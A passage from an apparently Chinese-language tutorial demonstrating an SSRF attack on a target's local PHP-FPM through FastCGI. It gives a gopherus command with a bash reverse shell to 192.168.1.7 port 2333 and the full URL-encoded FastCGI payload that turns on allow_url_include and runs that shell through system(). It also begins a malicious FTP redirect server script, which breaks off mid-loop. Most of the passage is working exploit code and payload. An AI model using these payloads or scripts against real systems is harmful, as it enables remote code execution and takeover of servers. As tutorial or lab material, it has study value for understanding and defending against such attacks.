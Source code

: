 这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成 SSRF。

下面我们来演示一下攻击过程。

首先，我们使用gopherus生成攻击fastcgi的payload：

```bash
python gopherus.py --exploit fastcgi
/var/www/public/index.php  # 这里输入的是目标主机上一个已知存在的php文件
bash -c "bash -i >& /dev/tcp/192.168.1.7/2333 0>&1"  # 这里输入的是要执行的命令
```

![img](https://p0.ssl.qhimg.com/t01a0a454a129453abf.png)

得到 payload，同样是只需要 payload 中 `_` 后面的数据部分，即：

```python
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%07%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%19SCRIPT_FILENAME/var/www/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.7/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

在攻击机上设置好监听：

![img](https://p0.ssl.qhimg.com/t01ac82d4ead6e14ceb.png)

然后编写如下脚本（[脚本是从网上扒的](https://github.com/Maskhe/evil_ftp)，谁叫我菜呢，大佬勿喷~~），在攻击机上搭建一个恶意的 ftp 服务，并将上面的 payload 中的数据替换掉下面 ftp 脚本中的 payload 的内容：

```python
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%07%07%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%19SCRIPT_FILENAME/var/www/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.7/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
```